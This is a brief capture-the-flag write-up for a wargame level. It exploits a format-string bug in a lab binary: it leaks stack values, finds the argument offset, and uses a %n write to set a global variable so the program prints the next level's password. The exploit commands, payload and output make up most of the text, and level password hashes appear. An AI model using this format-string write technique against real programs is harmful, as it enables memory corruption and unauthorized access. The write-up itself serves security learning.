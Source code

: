 # Level 4
*pass: b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa*

```
$ scp -P 4242 level4@192.168.56.108:level4 .
```

```
  if (m == 0x1025544) {
    system("/bin/cat /home/user/level5/.pass");
```

`0x1025544` = 16930116\
`m` address = 0x08049810

```
$ python -c 'print "\x10\x98\x04\x08 %p %p %p %p %p %p %p %p %p %p %p %p"' | ./level4
DU 0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0 0xb7ff37d0 0x1025544
```

address at parameters 12th.

```
$ python -c 'print "\x10\x98\x04\x08%16930112u%12$n"' > /tmp/level4
$ cat /tmp/level4 - | ./level4
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

```


